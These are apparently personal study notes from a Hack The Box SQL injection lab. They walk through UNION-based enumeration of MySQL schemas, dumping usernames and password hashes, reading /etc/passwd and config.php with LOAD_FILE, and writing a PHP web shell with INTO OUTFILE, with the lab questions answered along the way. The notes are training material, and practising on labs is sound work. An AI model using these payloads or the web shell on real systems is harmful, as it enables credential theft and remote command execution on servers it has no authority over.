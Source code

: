 # 💇 Exploitation

## Database Enumeration

If we see in HTTP responses that the webserver is running `Apache` or `Nginx`, it is a good guess that the webserver is running on Linux, so the DBMS is likely `MySQL` and if the webserver is `IIS`, so it is likely to be `MSSQL`.

To form nice queries to dump the database, we can utilize the `INFORMATION_SCHEMA` Database. It contains metadata about the databases and tables present on the server.

If we only specify a table's name for a `SELECT` statement, it will look for tables within the same database.

So to reference a table present in another DB, we can use the dot ‘`.`’ operator. For example, to `SELECT` a table `users` present in a database named `my_database`, we can use:

```sql
SELECT * FROM my_database.users;
```

The table [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) in the `INFORMATION_SCHEMA` database contains information about all databases on the server.

```shell-session
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

Now we could use this with our union command

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

We can find the current database with the `SELECT database()` query.

```sql
cn' UNION select 1,database(),2,3-- -
```

The [TABLES](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html) table contains information about all tables throughout the database.. The `TABLE_NAME` column stores table names, while the `TABLE_SCHEMA` column points to the database each table belongs to. So we can use the following payload to find the tables within the `dev` database:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

The [COLUMNS](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) table contains information about all columns present in all the databases. The `COLUMN_NAME`, `TABLE_NAME`, and `TABLE_SCHEMA` columns can be used.

Let's say we have the credentials table:

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

And now we can form our `UNION` query to dump data of the `username` and `password` columns from the `credentials` table in the `dev` database.

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

_**What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**_

```
'UNION SELECT 1,2,3,4 FROM users-- -
```

<figure><img src="../../../.gitbook/assets/image (1282).png" alt=""><figcaption></figcaption></figure>

```
'UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.TABLES-- -
```

<figure><img src="../../../.gitbook/assets/image (1283).png" alt=""><figcaption></figcaption></figure>

```
'UNION SELECT 1,COLUMN_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.COLUMNS-- -l
```

<figure><img src="../../../.gitbook/assets/image (1284).png" alt=""><figcaption></figcaption></figure>

```
'UNION SELECT 1,username,password,4 FROM users-- -
```

<figure><img src="../../../.gitbook/assets/image (1285).png" alt=""><figcaption></figcaption></figure>

## Reading Files

in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files.

So we need to start by enumerating user privileges

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

So the union command would look like&#x20;

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
#or
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

<figure><img src="../../../.gitbook/assets/image (1286).png" alt=""><figcaption></figcaption></figure>

So now we see that we are root, we need to check if we have super admin priv:

```sql
SELECT super_priv FROM mysql.user
# sor the query will be 
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
# or if we target a user:
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

It will return Y or N

We can also dump other privileges we have directly from the schema, with the following query:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
#And the query will turn out like:
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

<figure><img src="../../../.gitbook/assets/image (1287).png" alt=""><figcaption></figcaption></figure>

So if we are super admin we can say that we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function.

```sql
SELECT LOAD_FILE('/etc/passwd');
```

<figure><img src="../../../.gitbook/assets/image (1288).png" alt=""><figcaption></figcaption></figure>

_**We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**_

```
' union select 1,CURRENT_USER(),3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (1289).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

<figure><img src="../../../.gitbook/assets/image (1290).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

<figure><img src="../../../.gitbook/assets/image (1291).png" alt=""><figcaption></figcaption></figure>

## Writing Files

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

The [secure\_file\_priv](https://mariadb.com/kb/en/server-system-variables/#secure\_file\_priv) variable is used to determine where to read/write files from.

MariaDB has this variable set to empty by default but `MySQL` uses `/var/lib/mysql-files` as the default folder.

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

If we are using a `UNION` injection, we have to get the value using a `SELECT` statement so `MySQL` global variables are stored in a table called [global\_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html), and as per the documentation, this table has two columns `variable_name` and `variable_value`.

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
#so it will turn out like:
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

<figure><img src="../../../.gitbook/assets/image (1292).png" alt=""><figcaption><p>No data = read/write files to any location</p></figcaption></figure>

The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files.

we can add `INTO OUTFILE '...'` after our query to export the results into the file we specified.

```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```shell-session
ElFelixi0@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly `SELECT` strings into files, allowing us to write arbitrary files to the back-end server.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```shell-session
ElFelixi0@htb[/htb]$ cat /tmp/test.txt 

this is a test
```

An injection command would look something like this:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

<figure><img src="../../../.gitbook/assets/image (1293).png" alt=""><figcaption></figcaption></figure>

### Writing a Web Shell

We can write the following PHP webshell to be able to execute commands directly on the back-end server:

```php
<?php system($_REQUEST[0]); ?>
# so the request would give out:
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

and to access the file:

```
http://SERVER_IP:PORT/shell.php?0=id
```

<figure><img src="../../../.gitbook/assets/image (1294).png" alt=""><figcaption></figcaption></figure>
